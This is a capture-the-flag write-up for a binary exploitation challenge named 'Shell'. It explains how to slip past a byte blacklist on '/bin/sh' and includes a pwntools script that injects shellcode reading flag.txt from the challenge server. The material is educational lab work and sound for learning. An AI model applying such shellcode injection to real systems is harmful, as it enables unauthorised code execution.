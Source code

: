 # Shell
* **Event:** RobotApocalypseCTF (ISSS CTF 01-29-2021)
* **Problem Type:** Binary Exploitation

The binary blacklists the bytes in the string `"/bin/sh"`. We could write special shellcode that doesn't include those
bytes to get around this, or encode our shellcode in some way, then include a stub to decode it. However, both of those
seem hard, so instead we use the built in pwntoools shellcode generator to make shellcode that just prints `"flag.txt"`.
Luckily this shellcode doesn't include any blacklisted bytes, so everything works

```python
#!/usr/bin/python3

from pwn import *

context.terminal = ['konsole','-e']
#context.log_level = 'debug'
context.binary = './build/shell'

e = ELF('./build/shell')
rop = ROP('./build/shell')
if 'd' in sys.argv:
    p = gdb.debug('./build/shell')
elif 'r' in sys.argv:
    p = remote('ctf.isss.io', 5001)
else:
    p = process('./build/shell')

payload = asm(shellcraft.cat('flag.txt'))

p.sendline(payload)
p.interactive()
```
